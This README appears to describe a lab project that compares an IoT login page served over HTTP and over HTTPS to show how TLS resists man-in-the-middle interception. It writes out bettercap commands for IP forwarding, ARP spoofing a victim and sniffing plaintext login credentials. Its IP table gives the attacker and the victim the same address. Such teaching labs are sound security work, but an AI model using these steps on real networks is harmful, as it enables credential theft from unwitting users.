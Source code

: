# 🔐 HTTPS-IoT Demo: Secure Web Login Against MITM Attacks

This project demonstrates how HTTPS protects user credentials from interception by man-in-the-middle (MITM) attacks. It simulates a login page for an IoT device served over both HTTP and HTTPS, allowing a clear comparison between insecure and secure communication.

📌 Project Overview
- 🔓 **HTTP Mode**: Credentials are sent in plaintext, easily captured via ARP spoofing + packet sniffing.
- 🔒 **HTTPS Mode**: Credentials are encrypted with TLS. MITM attacks will not reveal any sensitive data without the client trusting a malicious certificate.


### Requirements

- `Python 3.x`
- Flask (`pip install flask`)
- A Kali Linux with `bettercap` installed (usually preinstalled)
- Victim device (e.g., another VM or physical device) 

Role | IP Example  
---- | ----- 
Attacker (Kali VM) | 192.168.1.125
Server (This project) | 192.168.1.108
Victim (Ubuntu VM) |	192.168.1.125

*Ensure all devices are on the same LAN or bridge network.*

### 🔓Attack HTTP with Bettercap
**1. Enable IP Forwarding (Kali)**

　`echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward`

**2. Launch Bettercap**

　`sudo bettercap -iface eth0`

　Replace eth0 with your Kali's actual network interface (use `ip a` to check).

**3. In Bettercap console**

　`set arp.spoof.targets 192.168.1.125`  Target the victim

　`arp.spoof on`

**4. Enable HTTP sniffing (for login form capture)**

　`set http.proxy.script /usr/share/bettercap/caplets/http-req-dump/http-req-dump.js`

　`http.proxy on`

　`net.sniff on`

**5. From the server machine**

`py server.py`

By default, it runs at: `http://0.0.0.0:8080`

**6. From the Victim Machine**

　Open browser and visit:

　`http://192.168.1.108:8080/login.html`

　Login with any credentials.

**📥 What You Capture**

In the Bettercap terminal or Web UI (Events), you will see:

`[net.sniff.http.request] POST /login
　username=XXXX&password=YYYY`




## 📂 Folder Structure
MITM/  
    ├── README.md  
    ├── dashnewv10.html          # Simulated dashboard page  
    ├── fetchbannaprice.html       
    ├── index.html                 
    ├── login.html               # Login form page (for capture/testing)  
    ├── server.py                # A script to start a local HTTP/HTTPS service  
    ├── ssl/                   # Self-signed certificate  
    　　├── iot-dash.crt  
    　　└── iot-dash.key  
    └── .idea/                     


